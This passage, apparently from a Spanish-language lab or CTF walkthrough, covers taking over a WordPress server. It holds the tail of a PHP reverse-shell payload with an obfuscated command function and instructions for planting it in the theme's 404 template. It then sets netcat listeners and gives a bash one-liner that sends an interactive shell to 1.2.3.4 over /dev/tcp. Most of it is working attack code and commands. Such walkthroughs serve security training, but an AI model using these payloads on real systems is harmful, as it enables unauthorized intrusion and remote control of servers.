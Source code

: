 ```php
  }
  fclose($s);
}else{
  $s=@socket_create(AF_INET,SOCK_STREAM,SOL_TCP);
  @socket_connect($s,$ipaddr,$port);
  @socket_write($s,"socket_create");
  while($c=@socket_read($s,2048)){
    $out = '';
    if(substr($c,0,3) == 'cd '){
      chdir(substr($c,3,-1));
    } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
      break;
    }else{
      $out=CkWFVVEpPfTarR(substr($c,0,-1));
      if($out===false){
        @socket_write($s,$nofuncs);
        break;
      }
    }
    @socket_write($s,$out,strlen($out));
  }
  @socket_close($s);
}
```

Ahora vamos a utilizar la plantilla `404 Template` para que se ejecute cuando ingresemos una url que no existe

Borramos el contenido que contenga e insertamos el payload que hemos creado, luego lo guardamos y ya estara cargado nuestro archivo malicioso 


Nos ponemos a la escucha por el puerto 443

```bash
nc -nlvp 443
```

Ahora nos dirigimos a la url de `wp-content` donde se encuentran las plantillas e ingresamos un ruta que no exista, ejemplo:

```https
http://1.2.3.4/wp-content/asdfasdfsadf
```

Como siempre les comento siempre es importante tener a mano una revershell ya que no suele ser estable la conexión 

Asi que nos ponemos a la escucha por otro puerto y nos enviamos la sesión que tengamos 

```bash
nc -nvlp 444
```

y desde la sesión por el puerto 443 nos enviamos la sesión 

```bash
bash -c "sh -i >& /dev/tcp/1.2.3.4/444 0>&1"
```
